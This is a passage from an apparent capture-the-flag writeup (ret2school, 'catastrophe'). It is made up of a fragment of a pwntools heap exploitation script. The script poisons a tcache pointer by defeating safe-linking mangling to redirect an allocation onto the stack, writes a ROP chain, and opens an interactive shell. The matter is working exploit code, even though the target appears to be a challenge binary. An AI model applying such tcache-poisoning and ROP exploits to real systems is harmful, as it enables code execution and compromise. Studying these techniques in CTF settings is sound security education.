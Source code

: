 ```py  
offset of the unsorted bin  
pwn.log.info(f"stack: {hex(stack)}")

free(1) # large  
free(2)

alloc(5, b"T"*0x108 + pwn.p64(0x111) + pwn.p64((stack ^ ((heap + 0xb20) >>
12))), 0x130)  
alloc(2, b"TT", 0x100)

alloc(3, pwn.p64(stack) + rop.chain(), 0x100) # overwrite sRBP for nothing
lmao

io.interactive()  
```  

Original writeup (https://ret2school.github.io/post/catastrophe/).